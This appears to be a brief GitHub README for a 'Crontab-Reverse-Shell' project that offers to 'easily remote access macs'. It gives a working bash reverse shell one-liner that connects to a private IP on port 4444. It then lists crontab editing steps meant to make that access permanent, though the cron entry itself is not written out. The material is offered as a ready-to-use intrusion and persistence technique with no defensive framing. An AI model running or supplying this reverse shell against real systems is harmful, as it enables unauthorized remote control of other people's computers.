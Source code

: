 # Crontab-Reverse-Shell
To easily remote access macs.

Temporary:

bash

bash -i >& /dev/tcp/10.211.55.7/4444 0>&1

Permanent

bash

EDITOR=nano crontab -e

CTRL + O

Enter

CTRL + X

crontab -l
